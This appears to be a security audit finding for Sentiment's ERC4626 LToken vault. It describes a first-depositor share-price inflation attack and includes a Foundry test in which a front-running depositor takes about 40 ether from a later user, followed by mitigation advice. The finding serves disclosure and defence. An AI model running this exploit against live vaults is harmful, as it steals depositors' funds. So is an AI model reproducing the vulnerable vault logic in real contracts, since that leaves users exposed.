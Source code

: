 grhkm
# First user can steal part of everyone else's tokens

https://github.com/sentimentxyz/protocol/blob/main/src/tokens/utils/ERC4626.sol#L48
## [H] First user can steal part of everyone else's tokens
### Problem
A user who deposits to LToken vault first can steal part of everybody's tokens by sending tokens to the system externally.
They can manipulate the price of a share.
This attack is possible because you enable depositing a small amount of tokens.
### Proof of Concept
Here is simple test that shows the flow, it is not the exploit (can make it on hardhat, just a lot of setup required)
```solidity
pragma solidity 0.8.15;

import {TestBase} from "../utils/TestBase.sol";
import "forge-std/console.sol";

contract ProtocolTest is TestBase {
    address public alice = cheats.addr(1);
    address public bob = cheats.addr(2);

    function setUp() public {
        setupContracts();
    }

    function testTakeBobsMoney() public {
        erc20.mint(address(alice), 1000 ether);
        erc20.mint(address(bob), 1000 ether);
        cheats.prank(alice);
        erc20.approve(address(lErc20), type(uint256).max);
        cheats.prank(bob);
        erc20.approve(address(lErc20), type(uint256).max);

        cheats.startPrank(alice);
        lErc20.deposit(1, alice); // 1 share costs 1 wei now
        assertEq(lErc20.previewRedeem(1), 1);
        // alice 's bot monitors mempool

        assertEq(lErc20.previewDeposit(180 ether), 180 ether); //Bob checks that he will get 180 ether shares for his 180 ether
        // when bob deposits funds alice's bot puts transaction with higher priority  
        erc20.transfer(address(lErc20), 100 ether); // 1 share costs 100 ether + 1 wei now
        cheats.stopPrank();

        assertEq(lErc20.previewRedeem(1), (100 ether + 1));
       
        cheats.prank(bob);
        lErc20.deposit(180 ether, bob); // 2 shares cost 200 ether + 2 wei, so Bob gets only one share, because of rounding down

        assertEq(lErc20.previewRedeem(1), 140 ether); // now we have ~280 ether in the vault, 140 ether per share
        
        cheats.prank(alice);
        lErc20.redeem(1, alice, alice);

        uint aliceBalance = erc20.balanceOf(address(alice));
        assertEq(aliceBalance, (1040 ether - 1)); // alice got +~40 ether at the expense of bob
    }
}
```

### Mitigation
- Use Flashbots to avoid mempool.
- Force users to deposit at least some amount in the LToken vault.
That way the amount the attacker will need to ERC20.transfer to the system will be at least X * 1e18 instead of X which is unrealistic.
An alternative is to require only the first depositor to freeze big enough initial amount of liquidity. This approach has been used long enough by various projects, for example in Uniswap V2:
[Uniswap/UniswapV2Pair.sol#L119-L121](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L121)
